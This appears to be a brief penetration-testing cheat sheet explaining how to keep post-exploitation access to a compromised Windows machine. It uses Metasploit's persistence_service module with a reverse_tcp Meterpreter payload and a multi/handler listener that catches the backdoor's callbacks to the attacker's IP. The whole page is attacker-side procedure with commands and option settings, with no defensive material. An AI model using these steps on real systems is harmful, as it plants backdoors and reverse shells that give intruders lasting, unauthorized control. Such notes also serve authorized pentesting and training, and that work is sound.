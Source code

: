 
Persistence is a key post-exploitation step that allows an attacker to maintain access to a compromised system even after it has been rebooted or the initial session has been closed.

## Metasploit

1. Gain a Meterpreter session on the target machine 
2. Load the `persistence_service`Module
```bash
use post/windows/manage/persistence_service
```

3. Set Required Options

- `SESSION`: The session ID of the active Meterpreter session.
- `PAYLOAD`: The payload you want to execute persistently (e.g., `windows/meterpreter/reverse_tcp`).
- `LHOST`: The attacker's IP address to receive the connection.
- `LPORT`: The port on which the listener will be running.

4. Run the module

#### Recovering Access After Using the Persistence Module
After deploying the persistence module in Metasploit, if the session ends unexpectedly (due to reboot or network loss), you can regain access using the `multi/handler` module. The backdoor created by the module ensures that the payload will reconnect to the attacker's machine whenever executed on the target.
```bash
use multi/handler
set payload <payload_type>       
set LHOST <attacker_ip>         
set LPORT <listening_port>       
exploit
```
